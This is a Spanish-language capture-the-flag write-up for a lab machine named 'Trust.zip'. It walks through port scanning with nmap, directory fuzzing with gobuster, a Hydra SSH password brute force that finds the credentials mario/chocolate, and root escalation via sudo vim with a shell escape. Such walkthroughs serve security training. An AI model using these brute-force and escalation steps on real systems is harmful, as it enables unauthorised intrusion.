







# 🛡️ Write-Up: Trust.zip

- **Dificultad:** Muy fácil  
- **Objetivo:** Obtener acceso inicial y escalar privilegios  

---

## 🔍 Enumeración

Se descomprime el archivo `Trust.zip` y se ejecuta la máquina virtual.

Se realiza un escaneo completo de puertos con Nmap:

```bash
nmap -p- -sC -sV --open -sS -n -Pn <IP>


Parámetros utilizados:
-p-: escaneo de todos los puertos
-sC: scripts por defecto
-sV: detección de versiones
--open: muestra solo puertos abiertos
-sS: SYN scan (sigiloso)
-n: evita resolución DNS
-Pn: omite ping previo
📌 Resultados
Puerto 22: SSH
Puerto 80: HTTP
🌐 Análisis Web

Al detectar el puerto HTTP abierto, se realiza fuzzing con Gobuster:

gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt



📌 Resultados

Se encuentran:

index.html
secret.php
🔐 Acceso Inicial

Se identifica un posible usuario en secret.php.

Se realiza ataque de fuerza bruta con Hydra:

hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://<IP>



📌 Resultado
Usuario: mario
Contraseña: chocolate

Acceso vía SSH:

ssh mario@<IP>



🚀 Escalada de Privilegios

Verificación de permisos:

sudo -l



Resultado:

(ALL) /usr/bin/vim
⚠️ Explotación (GTFOBins)

Se ejecuta:

sudo vim



Dentro de VIM:

:!/bin/bash
👑 Verificación
whoami




Resultado:

root
